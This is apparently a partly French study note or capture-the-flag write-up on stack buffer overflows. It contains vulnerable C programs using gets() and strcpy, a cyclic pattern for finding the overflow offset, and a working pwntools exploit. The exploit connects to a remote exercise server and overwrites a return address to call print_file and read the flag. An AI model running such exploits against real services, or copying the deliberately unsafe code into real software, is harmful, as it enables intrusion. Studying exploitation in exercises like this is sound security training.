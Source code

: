 
## Stack

```c
#include #include #include 
int main (int argc , char **argv ) 
{ 
	volatile int modified ; 
	char buffer [64]; 
	modified = 0 ; 
	gets(buffer);  // Get string to buffer => no size check
	
	if (modified != 0 ) { 
		printf ("you have changed 'modified' \n"); // dead code normally
		} 
	else { printf ("Try again? \n"); } }
```

## Example 1

```c
  
static void print_file(const char* def, const char* file)  
{  
    char buf[100];  
    FILE* f;  
    int a = 0xc354;  
  
    f = fopen(file, "r");  
    if (f)  
    {  
        while (fgets(buf, sizeof(buf), f))  
            PRINTF("%s", buf);  
  
        fclose(f);  
    }  
    else  
        PRINTF("%s\n", def);  
}  
  
  
char glb_buf[0x2000] = {0}; // 8192  
  
char *get_data() {  
    if (!fgets(glb_buf, sizeof(glb_buf), stdin)) {  
        return NULL;  
    }  
  
    return glb_buf;  
}  
  
#define BANNER_FILE "banner.txt"  
#define SECURE_PASSWD "APasswordSoSecureItIsImpossibleToFind"  
#define MAX_SIZE 40 //0x28  
#define MIN_SIZE 8  
  
void handle_client(int fd)  
{  
    char buf[MAX_SIZE];  
    char *tmp;  
    char sz; // 1 byte [0,255] 0 FF [8,0x28(40)]  
  
    print_file("Welcome to this secure API", BANNER_FILE);  
  
    PRINTF("Enter password:\n");  
  
    tmp = get_data();  
    sz = strlen(tmp); // if plus than 255 ?  
  
    if (sz < MIN_SIZE || sz > MAX_SIZE) {  
        PRINTF("INVALID PASSWORD\n");  
        return;  
    }  
  
    // our password has a valid size, copy because we will want to call get_data again  
    strcpy(buf, tmp); // with tmp we can get over the buffer ? // call get_data and then strcmp?  
  
    if (!strcmp(buf, SECURE_PASSWD)) { // replace strcmp with print file and there arg ?  
        PRINTF("You are authenticated!\n");  
    }  
    else {  
        PRINTF("Wrong password!\n");  
    }  
  
}
```

Ici, après le int overflow, on peut faire un buffer overflow

### Trouver le padding 

Generate a pattern with : https://wiremask.eu/tools/buffer-overflow-pattern-generator/

Start : ```strace -f ./exo```

```python
buf = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A'  
target.sendline(buf)
```

![[Pasted image 20231117213359.png]]

![[Pasted image 20231117213504.png]]

Then the offset is 57 => acces à esp

On peut overwrite l'addresse de retour de la fonction

@addr of the function we want to call (Look of the addr in IDA if no pie)
@ret de la function (Generalement exit)
@first arg 
@other arg

```python
from pwn import * # CONNECT:  
target = remote("163.172.39.203", 9020) # TCP connection on port 9000  
#target = remote("0.0.0.0", 9000) # TCP connection on port 9000  
# target = process("./exo") # launch exercise exo100  
  
  
buf = b'a' * 57  
#buf += p32(0x80494A9) # get_data  
buf += p32(0x080493F6) # print_file  
buf += p32(0x0804C034) # exit  
buf += p32(0x0804A05C) # 1st arg : on s'en fou  
buf += p32(0x804c1a4) # 2nd arg : end of glb_buf  
  
# Add padding for overflow  
if (len(buf) % 255 < 8):  
    size = 295  
elif (len(buf) % 255 > 40):  
    size = 264-len(buf)  
else:  
    size = 0  
#size = 183  
print("size: %s" % hex(size))  
print("len buf: %s" % hex(len(buf)))  
print("len buf + size: %s" % hex(len(buf)%255 + size) )  
buf += b'b' * (size - 4) # cat for flag  
buf += b'flag\0' # Add flag at the end of the glb_buf  
target.sendline(buf)  
  
print("sending...")  
target.sendline(buf)  
print("recv...")  
  
for i in range (100) :  
    print(target.recvline())
```